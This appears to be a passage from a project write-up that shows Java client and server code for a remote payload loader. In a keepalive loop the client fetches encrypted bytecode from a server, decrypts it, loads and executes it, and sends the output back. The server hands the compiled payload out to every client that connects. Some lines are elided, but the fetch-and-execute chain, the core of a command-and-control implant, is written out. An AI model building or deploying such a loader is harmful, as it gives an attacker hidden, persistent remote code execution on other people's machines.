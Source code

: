 ```java
do {
    // Connect to server (retry if fails)
    connect(settings.getAddress(), settings.getPort());
    [...]
    // Allocate space to store data received from server
    byte[] buffer = new byte[4096];
    ByteArrayOutputStream byteArrayStream = new ByteArrayOutputStream();

    // Receive classfile from server
    [...]
    byteArrayStream.write(buffer, 0, in.read(buffer));
    System.out.println(String.format("Received %d bytes from server", 
            byteArrayStream.size()));

    // Load the received class
    LoadClass loader = new LoadClass(settings.getClassName(),
            settings.getClassMethod(),
            cipher.decrypt(byteArrayStream.toByteArray()));

    // Execute the payload and store the text output
    String output = loader.load();
    [...]
    Thread.sleep(REFRESH);
} while (settings.getKeepalive());
```


### Server

On the other side, server spawns a new thread for each client connecting to it. Once the connection is established, the server will deliver encrypted Java bytecode to the client. 

The payload should be first compiled into a class file and its local path must be specified as an argument when starting the server. The `javac` version used to compile the payload should not be higher than the client JRE version (at this moment I am using **OpenJDK build 11.0.15.1+2-LTS**).

```java
 // Handle incoming connections and spawn new thread for each client
while (true) {
    try {
        clientHandler = new ClientHandler(serverSocket.accept());
    } catch (IOException e) {
        throw new RuntimeException(e);
    }

    thread = new Thread(clientHandler);
    thread.start();
}
```


```java
while (clientSocket.isConnected() && !clientSocket.isClosed()) {
    [...]
    // Send classfile to client
    byte[] classBytes = Utils.file2ByteArray(Settings.getInstance().getClassFile());
    out.write(cipher.encrypt(classBytes));
    out.flush();
    System.out.println(String.format("Sent %d bytes to client", classBytes.length));

    // Receive execution output from client
    byte[] buffer = new byte[4096];
    ByteArrayOutputStream byteArrayStream = new ByteArrayOutputStream();
    
    [...]
    byteArrayStream.write(buffer, 0, in.read(buffer));
```